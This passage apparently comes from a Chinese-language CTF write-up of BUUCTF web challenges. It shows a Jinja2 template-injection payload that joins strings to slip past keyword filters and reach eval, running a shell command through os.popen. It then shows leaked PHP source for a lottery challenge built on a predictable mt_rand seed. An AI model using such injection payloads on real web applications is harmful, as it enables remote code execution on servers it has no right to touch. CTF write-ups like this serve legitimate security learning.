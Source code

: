 2.字符串拼接:

```
{{[].__class__.__bases__[0].__subclasses__()[59].__init__["__glo"+"bals__"]['__bui'+'ltins__']['ev'+'al']("__import__('os').popen('ls').read()")}}
```



<br>

***

<br>

# [伪随机数]枯燥的抽奖

这种一般都不能硬猜吧

<img src="/images/buuctf-web2/image-20221026100046964.png" alt="image-20221026100046964" style="zoom:80%;" />

源码发现了`check'.php`

![image-20221026100104694](/images/buuctf-web2/image-20221026100104694.png)

访问拿到代码

```php
chcRo2MtG9

<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
} //对于同一个种子来说, 这20轮循环中每次随机到的数都是相同的
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
```